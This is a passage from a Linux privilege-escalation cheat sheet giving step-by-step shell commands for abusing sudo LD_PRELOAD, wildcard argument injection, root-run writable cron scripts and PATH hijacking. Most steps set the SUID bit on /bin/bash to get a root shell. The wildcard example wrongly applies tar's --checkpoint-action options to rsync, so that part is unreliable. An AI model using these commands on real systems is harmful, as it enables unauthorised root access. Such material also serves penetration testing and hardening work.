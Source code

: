 2. Environment variables preservation with sudo (`env_keep`):
```bash
# If LD_PRELOAD is kept
sudo LD_PRELOAD=/path/to/malicious.so program
```

3. Wildcard exploitation:
```bash
# If you can run something like: sudo /usr/bin/rsync *.conf /backup/
echo 'command' > exploit.conf
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'
sudo /usr/bin/rsync *.conf /backup/
```

## Cron Jobs

Identifying and exploiting vulnerable cron jobs:

1. Find cron jobs:
```bash
crontab -l
ls -la /etc/cron*
cat /etc/crontab
```

2. Look for writable scripts executed by cron:
```bash
find /etc/cron* -type f -writable
```

3. Monitor running processes to identify cron jobs:
```bash
./pspy64
```

Example exploitation:
```bash
# If you find a writable script run by root cron job
echo 'chmod +s /bin/bash' >> /path/to/writable/script.sh
# Wait for cron to execute
/bin/bash -p
```

## Path Variable Manipulation

If the system uses a relative path to execute commands and the PATH variable can be manipulated:

1. Check the current PATH:
```bash
echo $PATH
```

2. Create a malicious binary with the same name:
```bash
cd /tmp
echo '#!/bin/bash' > service
echo 'chmod +s /bin/bash' >> service
chmod +x service
```

